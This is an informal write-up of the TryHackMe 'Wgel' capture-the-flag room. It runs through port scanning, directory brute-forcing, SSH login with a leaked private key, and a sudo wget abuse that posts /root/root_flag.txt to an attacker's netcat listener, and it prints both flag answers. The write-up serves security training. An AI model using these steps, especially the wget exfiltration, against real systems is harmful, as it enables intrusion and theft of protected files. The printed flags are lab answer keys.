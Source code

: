                  WGEL CTF
                 
    1 - User flag
 - Let’s start by scanning the IP with nmap :-

-nmap -sV -Pn <ip> 
 
 -22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
-80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works.

Then we have 2 open ports :- ssh and http.

Lets start with http:-
 -we haven't robot.txt file here.
 -the displayed default page is apache welcome page.
 
 After we scan the next step is directory bruteforce.
  for this step we use gobuster,Dirb.

-Lets go for Dirb => dirb <ip with http://>
-Result = we have many results, but the main is /sitemap/
then we get good,cool website.

 again we brute foce it.
Then we get /.shh/ file.

After this we see id_rsa file.
then we open and save the private key as id_rsa.

SO we try ssh shell for this => ssh -i id_rsa jessie@<ip>

Then we get Jessie's shell.
After this  - go to /Documents/ => cd /Documents/
            - ls then you get "user_flag.txt"
            - cat user_flag.txt 
            - copy the flag and submit it on tryhackme.com/room/wgel/
       
       ANSWER =   057c67131c3d5e42dd5cd3075b198ff6
       
     2  - Root flag
    
 On JESSIE'S shell - ls -l /root/ 
 then the shell says 'Permission denied'
                   - do sudo -l =>  (root) NOPASSWD: /usr/bin/wget
   then he tells you the wget command work without sudo privilage.

-After this we need file upload but before this we must run 'netcat'.
  run this command      => nc -lvp 1234
- for file upload run this command :-
     => sudo wget --post-file=/root/root_flag.txt <your pc ip and the port you use for net cat> e.x = 10.10.10.10:1234 
     
THEN you will get the root flag through the netcat listener.
 
       ANSWER = b1b968b37519ad1daa6408188649263d
       
       
         
                                                     THANK YOU 
                                                     
                                                  DEAR LINUX ANON 

